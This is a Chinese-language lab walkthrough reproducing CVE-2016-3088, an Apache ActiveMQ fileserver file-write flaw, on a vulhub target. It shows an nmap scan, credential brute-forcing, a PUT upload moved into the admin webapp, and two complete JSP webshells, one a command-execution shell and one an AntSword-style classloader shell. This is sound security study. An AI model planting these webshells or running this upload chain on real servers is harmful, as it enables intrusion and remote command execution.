# 0x01 概述

​	ActiveMQ的web控制分为三个应用系统，都包含：admin、api、fileserver。默认管理端口为`8161`

* 应用系统

  * admin：管理员界面

  * api：接口

  * fileserver：存储文件接口，标准的`RESTFUL API`接口

    > * admin与api系统是需要**登录认证**
    > * fileserver**无需登录**，且支持GET、PUT、DELETE等HTTP请求方法
    > * Apache ActiveMQ 5.12.x~5.13.x版本中默认是关闭fileserver，5.14之后版本彻底删除fileserver服务 
    > * 在fileserver应用目录下不解析jsp，只有在admin下是可以解析jsp

# 0x02 影响版本

* Apache ActiveMQ 5.0.0 - 5.13.2

# 0x03 漏洞靶场搭建

使用线下靶场环境搭建，这里使用`vulhub`直接搭建靶场

* 进入`/home/wq/vulhub/activemq/CVE-2016-3088`

  

* 执行`docker-compose up -d `与`docker-compose start`

  

* 测试靶场，开始访问：`http://靶场IP:8161/`，访问正常说明，靶场环境搭建完成

  

# 0x04 漏洞复现

## 1.漏洞发现

* > 服务发现：使用nmap进行端口服务扫描，发现`8161`端口是开放的为`Apache ActiveMQ`

  ```cmd
  PS C:\HackTools\Work\Vulnerability\sudo2022.github.io\Apache漏洞\CVE-2015-5254> nmap -sV -T4 -A -p- 192.168.10.134
  Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-24 14:39 中国标准时间
  Nmap scan report for 192.168.10.134
  Host is up (0.0015s latency).
  Not shown: 65532 closed tcp ports (reset)
  PORT      STATE SERVICE  VERSION
  22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey:
  |   3072 ad:69:ad:75:f6:17:67:fb:b3:7b:e6:31:2e:fe:f5:ff (RSA)
  |   256 16:f9:b7:9d:12:06:2d:aa:36:c1:e3:4b:a1:d1:f7:7c (ECDSA)
  |_  256 c1:ef:19:7c:9b:f0:62:3a:88:01:af:29:b9:03:d8:5f (ED25519)
  8161/tcp  open  http     Jetty 8.1.16.v20140903
  |_http-title: Apache ActiveMQ
  |_http-server-header: Jetty(8.1.16.v20140903)
  61616/tcp open  apachemq ActiveMQ OpenWire transport
  | fingerprint-strings:
  |   NULL:
  |     ActiveMQ
  |     MaxFrameSize
  |     CacheSize
  |     CacheEnabled
  |     SizePrefixDisabled
  |     MaxInactivityDurationInitalDelay
  |     TcpNoDelayEnabled
  |     MaxInactivityDuration
  |     TightEncodingEnabled
  |_    StackTraceEnabled
  1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
  SF-Port61616-TCP:V=7.92%I=7%D=2/24%Time=6217283D%P=i686-pc-windows-windows
  SF:%r(NULL,F4,"\0\0\0\xf0\x01ActiveMQ\0\0\0\n\x01\0\0\0\xde\0\0\0\t\0\x0cM
  SF:axFrameSize\x06\0\0\0\0\x06@\0\0\0\tCacheSize\x05\0\0\x04\0\0\x0cCacheE
  SF:nabled\x01\x01\0\x12SizePrefixDisabled\x01\0\0\x20MaxInactivityDuration
  SF:InitalDelay\x06\0\0\0\0\0\0'\x10\0\x11TcpNoDelayEnabled\x01\x01\0\x15Ma
  SF:xInactivityDuration\x06\0\0\0\0\0\0u0\0\x14TightEncodingEnabled\x01\x01
  SF:\0\x11StackTraceEnabled\x01\x01");
  MAC Address: 00:0C:29:57:C4:B7 (VMware)
  No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
  TCP/IP fingerprint:
  OS:SCAN(V=7.92%E=4%D=2/24%OT=22%CT=1%CU=31573%PV=Y%DS=1%DC=D%G=Y%M=000C29%T
  OS:M=62172850%P=i686-pc-windows-windows)SEQ(SP=FC%GCD=1%ISR=100%TI=Z%CI=Z%I
  OS:I=I%TS=A)SEQ(CI=Z%II=I)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7
  OS:%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W
  OS:4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW7%CC=Y%Q=)T1(
  OS:R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S
  OS:=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R
  OS:=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=
  OS:AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%
  OS:RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
  
  Network Distance: 1 hop
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  
  TRACEROUTE
  HOP RTT     ADDRESS
  1   1.47 ms 192.168.10.134
  
  OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 60.74 seconds
  ```

* > 访问目标登录页面：`http://192.168.10.134:8161/`

  

* > 猜测可能存在**反序列化漏洞**与**任意文件写入漏洞**，这里开始进行测试任意文件写入漏洞

## 2.漏洞验证（文件写入漏洞）

* > 第一步：获取其`admin`管理页面的登录，此时使用的方式为爆破。（因为**文件写入漏洞**是需要知道用户名与密码的）。在爆破的时候有个细节需要注意，这里的爆破是针对`HTTP`中`Authorization`的basic爆破是需要base64编码的，但是由于BP的url编码是默认开启的，需要关闭下。

  

  

* > 第二步：利用爆破获取的账密信息进入系统。`admin:admin`访问`http://192.168.10.134:8161/admin/`

  

  

  

* > 第三步：修改GET为PUT请求，因为目前我们要使用`fileserver`功能，还需知道自己文件上传的路径以便访问，自己可上传的木马位置。这里有个小点：就是默认的路径`../../../webapps/fileserver`，前面都是未知的一些路径，但是`fileserver`是在`webapps`目录下，在`webapps`目录下也是存在`admin、api`目录，对应着不同的应用服务。

  * **获取目录绝对路径：**

    * `webapps`目录结构：`admin、api、fileserver`

    * 访问`http://192.168.10.134:8161/admin/test/systemProperties.jsp`这里记录一些系统属性，也包含了`amq`路径、权限等，这样我们就能大致的分析出一个路径信息

      * `/opt/activemq/webapps/admin`
      * `/opt/activemq/webapps/api`
      * `/opt/activemq/webapps/fileserver`

      

  * **修改请求上传shell木马文件：**

    * `PUT`方式上传测试：在上传一个`1.txt`后再进行GET请求`1.txt`发现正常回显，此时确定存在文件上传漏洞

      

      

    * ​	准备`shell木马`，因为后端是`java`服务，这里我们选择`jsp`的木马。`1.jsp`

      ```jsp
      <%@ page import="java.io.*"%>
      
      <%
      	out.print("Hello</br>");
      	String strcmd=request.getParameter("cmd");
      	String line=null;
      	Process p=Runtime.getRuntime().exec(strcmd);
      	BufferedReader br=new BufferedReader(new InputStreamReader(p.getInputStream()));
      	while((line=br.readLine())!=null){
      		out.print(line+"</br>");
      	}
      %>
      ```

    * 上传木马文件，发现木马上传成功，但是再请求时却不能解析成功，没有`Hello`的html页面回显

      

      

  * 更改木马`1.jsp`文件目录，从`fileserver`迁移至`admin`目录下，此时就需要结合前面已经知道的**目录绝对路径**

    * 使用`MOVE`请求方式

    * 指定迁移绝对路径：`Destination: file:///opt/activemq/webapps/admin/1.jsp`

      

    * 迁移后发起请求：`http://192.168.10.134:8161/admin/1.jsp?cmd=ls`

      

      

## 3.获取shell

> 我们在`shell`命令已经执行成功，现在需要连接下`webshell`，这里需要注意一下几点：
>
> * 用户需要登录认证
> * 确定了决定路径
> * 上传正确的webshell木马

通过中国蚁剑连接，这里我重新生成了一个`webshell.jsp`木马，密码为`passwd`，按照上述方式重新上传

```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

* 使用蚁剑连接：

  

  

  

  

# 0x05 总结

CVE-2016-3088漏洞与amq的反序列化的漏洞不同，此漏洞的要求限制比较多：

> 1. amq的版本需要比较低：< 5.13版本
> 2. amq的fileserver服务需要开启
> 3. 需要爆破出admin的账密
> 4. 需要知道amq安装的绝对路径

